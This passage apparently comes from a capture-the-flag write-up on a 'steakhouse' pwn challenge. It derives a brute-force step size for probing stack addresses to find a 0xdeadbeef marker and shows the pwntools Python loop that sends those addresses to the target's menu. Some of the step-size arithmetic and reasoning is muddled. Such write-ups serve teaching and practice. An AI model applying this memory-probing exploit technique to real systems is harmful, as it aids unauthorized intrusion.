 and we want to definitely hit the 0xdeadbeef marker, we choose:
```
HIT_CONFIDENCE = 2
```

Then:
```math 
\texttt{BF_STEP} = \left\lfloor \frac{0x7a1200}{2} \right\rfloor \ \& \sim 0xf = 0x3d0900.
```
The corresponding line number is:
```
L = 0x3d0900 / 0x10 = 0x3d090 = 250,000
``` 

The $`\gcd(250000,10) = 10`$, meaning that we would hit the steak area twice, but only in the same steak line - meaning we are not covering different lines. Thus, the probability of hitting the `0xdeadbeef` marker would remain suboptimal ($`p=0.8`$ in this example).

We decrease by 16, making one step in the `while` loop:
```
gcd(0x3d080,10) = gcd(249984,10) = gcd(4,10) = 2.
```

We multiply by `0x10` to restore the brute-force step:
```
BF_STEP = 0x3d0800
```
This is the **maximum possible brute-force step** that ensures that we will hit the `0xdeadbeef` marker at least once, regardless of the memory layout, in every exploit run for a fixed `ulimit -s` stack size.

The corresponding lines in the exploit are:

```python
    start_addr = 0x7ffffffff000 # last mappable user-space address, 4KB aligned
    start_addr = start_addr - 0x10 # in theory, 0xdeadbeef entry could be here
    end_addr = 0x7ff000000000 # stack is located somewhere at 0x7ff...
    ...
    addresses = list(range(start_addr, end_addr, -BF_STEP)) # scan in the decreasing order

    steak_not_found = 1
    some_deadbeef_address_str = ""

    scan_progress = tqdm(addresses, desc="Brute-forcing address", dynamic_ncols=True)# Progress bar

    for addr_int in scan_progress:
        payload = hex(addr_int)
        scan_progress.set_description(f"Trying {payload}")

        p.sendlineafter(b'steakhouse\x1b[0m', CHOICE_READ_NEWSPAPER)
        p.sendlineafter(b'read?\x1b[0m', payload.encode())
        line = p.recvline()
        line = p.recvline()

        if b"Here" in line:
            some_deadbeef_address_str = payload
            steak_not_found = 0
            break
```
